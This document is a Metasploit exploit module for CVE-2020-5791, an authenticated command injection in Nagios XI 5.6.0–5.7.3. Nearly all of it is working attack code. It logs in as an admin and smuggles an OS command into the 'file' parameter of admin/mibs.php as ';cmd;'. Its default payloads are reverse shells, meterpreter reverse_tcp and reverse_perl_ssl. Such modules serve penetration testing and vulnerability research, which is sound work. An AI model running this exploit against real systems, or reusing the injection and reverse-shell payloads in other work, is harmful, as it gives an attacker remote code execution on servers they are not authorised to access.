 MSFEXP
------

    ##
    # This module requires Metasploit: https://metasploit.com/download
    # Current source: https://github.com/rapid7/metasploit-framework
    ##

    class MetasploitModule < Msf::Exploit::Remote
      Rank = ExcellentRanking

      include Msf::Exploit::Remote::HttpClient
      include Msf::Exploit::Remote::HTTP::NagiosXi
      include Msf::Exploit::CmdStager
      prepend Msf::Exploit::Remote::AutoCheck

      def initialize(info = {})
        super(
          update_info(
            info,
            'Name' => 'Nagios XI 5.6.0-5.7.3 - Mibs.php Authenticated Remote Code Exection',
            'Description' => %q{
              This module exploits CVE-2020-5791, an OS command injection vulnerability in
              `admin/mibs.php` that enables an authenticated user with admin privileges to achieve
              remote code execution as either the `apache` user or the `www-data` user on NagiosXI
              version 5.6.0 to 5.7.3 inclusive (exact user depends on the version of NagiosXI
              installed as well as the OS its installed on).

              Valid credentials for a Nagios XI admin user are required. This module has
              been successfully tested against Nagios XI 5.7.3 running on CentOS 7.
            },
            'License' => MSF_LICENSE,
            'Author' =>
              [
                'Chris Lyne', # discovery
                'Matthew Aberegg', # PoC
                'Erik Wynter' # @wyntererik - Metasploit
              ],
            'References' =>
              [
                ['CVE', '2020-5791'],
                ['EDB', '48959']
              ],
            'Platform' => %w[linux unix],
            'Arch' => [ ARCH_X86, ARCH_X64, ARCH_CMD ],
            'Targets' =>
              [
                [
                  'Linux (x86/x64)', {
                    'Arch' => [ ARCH_X86, ARCH_X64 ],
                    'Platform' => 'linux',
                    'DefaultOptions' => { 'PAYLOAD' => 'linux/x86/meterpreter/reverse_tcp' }
                  }
                ],
                [
                  'CMD', {
                    'Arch' => [ ARCH_CMD ],
                    'Platform' => 'unix',
                    # the only reliable payloads against a typical Nagios XI host (CentOS 7 minimal) seem to be cmd/unix/reverse_perl_ssl and cmd/unix/reverse_openssl
                    'DefaultOptions' => { 'PAYLOAD' => 'cmd/unix/reverse_perl_ssl' }
                  }
                ]
              ],
            'Privileged' => false,
            'DisclosureDate' => '2020-10-20',
            'DefaultTarget' => 0,
            'Notes' =>
              {
                'Stability' => [ CRASH_SAFE ],
                'SideEffects' => [ ARTIFACTS_ON_DISK, IOC_IN_LOGS ],
                'Reliability' => [ REPEATABLE_SESSION ]
              }
          )
        )

        register_options [
          OptString.new('USERNAME', [true, 'Username to authenticate with', 'nagiosadmin']),
          OptString.new('PASSWORD', [true, 'Password to authenticate with', nil])
        ]
      end

      def username
        datastore['USERNAME']
      end

      def password
        datastore['PASSWORD']
      end

      def finish_install
        datastore['FINISH_INSTALL']
      end

      def check
        # Use nagios_xi_login to try and authenticate. If authentication succeeds, nagios_xi_login returns
        # an array containing the http response body of a get request to index.php and the session cookies
        login_result, res_array = nagios_xi_login(username, password, finish_install)
        case login_result
        when 1..3 # An error occurred
          return CheckCode::Unknown(res_array[0])
        when 4 # Nagios XI is not fully installed
          install_result = install_nagios_xi(password)
          if install_result
            return CheckCode::Unknown(install_result[1])
          end

          login_result, res_array = login_after_install_or_license(username, password, finish_install)
          case login_result
          when 1..3 # An error occurred
            return CheckCode::Unknown(res_array[0])
          when 4 # Nagios XI is still not fully installed
            return CheckCode::Detected('Failed to install Nagios XI on the target.')
          end
        end

        # when 5 is excluded from the case statement above to prevent having to use this code block twice.
        # Including when 5 would require using this code block once at the end of the `when 4` code block above, and once here.
        if login_result == 5 # the Nagios XI license agreement has not been signed
          auth_cookies, nsp = res_array
          sign_license_result = sign_license_agreement(auth_cookies, nsp)
          if sign_license_result
            return CheckCode::Unknown(sign_license_result[1])
          end

          login_result, res_array = login_after_install_or_license(username, password, finish_install)
          case login_result
          when 1..3
            return CheckCode::Unknown(res_array[0])
          when 5 # the Nagios XI license agreement still has not been signed
            return CheckCode::Detected('Failed to sign the license agreement.')
          end
        end

        print_good('Successfully authenticated to Nagios XI')

        # Obtain the Nagios XI version
        @auth_cookies = res_array[1] # if we are here, this cannot be nil since the mixin checks for that already

        nagios_version = nagios_xi_version(res_array[0])
        if nagios_version.nil?
          return CheckCode::Detected('Unable to obtain the Nagios XI version from the dashboard')
        end

        print_status("Target is Nagios XI with version #{nagios_version}")

        if /^\d{4}R\d\.\d/.match(nagios_version) || /^\d{4}RC\d/.match(nagios_version) || /^\d{4}R\d.\d[A-Ha-h]/.match(nagios_version) || nagios_version == '5R1.0'
          nagios_version = '1.0.0' # Set to really old version as a placeholder. Basically we don't want to exploit these versions.
        end

        # check if the target is actually vulnerable
        version = Rex::Version.new(nagios_version)
        if version >= Rex::Version.new('5.6.0') && version <= Rex::Version.new('5.7.3')
          return CheckCode::Appears
        end

        return CheckCode::Safe
      end

      def execute_command(cmd, _opts = {})
        # execute payload
        send_request_cgi({
          'method' => 'GET',
          'uri' => normalize_uri(target_uri.path, 'admin', 'mibs.php'),
          'cookie' => @auth_cookies,
          'vars_get' =>
          {
            'mode' => 'undo-processing',
            'type' => '2',
            'file' => ";#{cmd};"
          }
        }, 0) # don't wait for a response from the target, otherwise the module will in most cases hang for a few seconds after executing the payload
      end

      def exploit
        if target.arch.first == ARCH_CMD
          print_status('Executing the payload')
          execute_command(payload.encoded)
        else
          execute_cmdstager(background: true)
        end
      end
    end